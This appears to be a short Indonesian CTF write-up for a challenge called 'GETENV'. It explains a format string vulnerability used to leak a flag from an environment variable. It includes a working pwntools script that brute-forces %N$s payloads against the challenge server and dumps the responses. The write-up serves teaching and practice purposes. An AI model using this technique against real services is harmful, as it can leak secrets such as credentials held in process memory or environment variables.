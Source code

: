 # GETENV

Vulnerabiliy kali ini adalah format string vulnerability, dimana kita dapat me-leak flag yang terdapat di env-variable dengan cara bruteforce.

disini saya menggunakan parameter contoh `%1$s` , untuk meleak flag, itu kita lakukan berkali-kali sampai flagnya terlihat

```python
import pwn
import threading

# remove debug output
pwn.context.log_level = 'WARNING'

def brute_format_str(num, file):
    with pwn.remote('01.linux.challenges.ctf.thefewchosen.com', 58846) as r:
        try:
            payload = f"%{num}$s"
            p = r.recv(1000)
            p = r.sendline(payload)
            p = r.recv(1000)
        except:
            pass
    try:
        file.write(p)
    except:
        pass
        

with open("dump.txt", "ab") as f:
    for i in range(0,100):
        t = threading.Thread(target=brute_format_str, args=(i,f))
        t.start()
        if i % 10 == 0:
            t.join()
```